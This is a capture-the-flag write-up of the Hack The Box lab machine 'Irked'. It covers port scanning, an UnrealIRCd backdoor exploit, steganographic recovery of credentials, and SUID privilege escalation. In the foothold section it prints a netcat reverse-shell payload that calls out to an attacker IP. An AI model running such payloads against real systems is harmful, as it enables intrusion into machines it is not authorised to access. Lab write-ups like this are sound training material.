 ```yaml
---
title: "[HTB] Machine: Irked"
description: "[HTB] Machine: Irked"
date: 2023-06-12
menu:
  sidebar:
    name: "[HTB] Machine: Irked"
    identifier: htb-machine-irked
    parent: htb-machines-linux
    weight: 10
hero: images/irked.png
tags: ["HTB", "searchsploit", "exploit-db", "hexchat", "irc", "python", "steganography", "steghide", "ssh", "su", "password-reuse", "metasploit", "exim"]
---
```


# Irked
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.117                                                                                             
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-14 18:23 BST
Nmap scan report for 10.10.10.117 (10.10.10.117)
Host is up (0.15s latency).
Not shown: 65528 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8067/tcp  open  infi-async
58258/tcp open  unknown
65534/tcp open  unknown
```
```
└─$ nmap -sV -sC -p22,80,111,6697,8067,58258,65534 10.10.10.117 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-14 18:51 BST
Nmap scan report for 10.10.10.117 (10.10.10.117)
Host is up (0.16s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a5df5bdcf8378b675319bdc79c5fdad (DSA)
|   2048 752e66bfb93cccf77e848a8bf0810233 (RSA)
|   256 c8a3a25e349ac49b9053f750bfea253b (ECDSA)
|_  256 8d1b43c7d01a4c05cf82edc10163a20c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35649/udp6  status
|   100024  1          44214/tcp6  status
|   100024  1          58258/tcp   status
|_  100024  1          59795/udp   status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
58258/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.24 seconds
```
- Web server

![](./images/1.png)

## Foothold
- We have an open `irc` port
  - Let's connect
  - Create and edit new network: `irked` in screenshots below
  - Setup connection: change `newserver/6697` to `10.10.10.117/6697`
  - We can add the network to favorites and filter everything out
  - And finally connect

![](./images/2.png)

![](./images/3.png)

![](./images/4.png)

![](./images/5.png)

![](./images/6.png)

- Nothing interesting except the version of the software
  - Let's use `searchsploit` to search for vulnerabilities

![](./images/7.png)

- And we find a few

![](./images/8.png)

- Let's test `rce`

![](./images/10.png)

- Seems like it works
  - Let's get our foothold
  - payload: `AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.3 6666 >/tmp/f`

![](./images/9.png)

![](./images/11.png)

## User
- Now we need to privesc
  - Enumerate as usual

![](./images/12.png)

- We see interesting file in `/home/djmardov/Documents` directory
  - Let's open it

![](./images/13.png)

- It certainly implies stenography and we have an image on the website
  - Let's check it
  - I used `steghide`

![](./images/14.png)

- And we have our `user`
## Root
- Basic enumeration
  - `linpeas` or manual
  - `sudo -l` - no results
  - search for `suid` binaries: `find / -perm -4000 -exec ls -lha {} \; 2>/dev/null`

![](./images/15.png)

- Strange `vievuser` file

![](./images/16.png)

- We have an error that `sh` can't locate `/tmp/listusers`
  - Let's create file and add `whoami` just in case it will execute it

![](./images/17.png)

- So, we can pretty much execute anyhing
  - Start listener and add `reverse shell` payload to `/tmp/listusers`
  - Rooted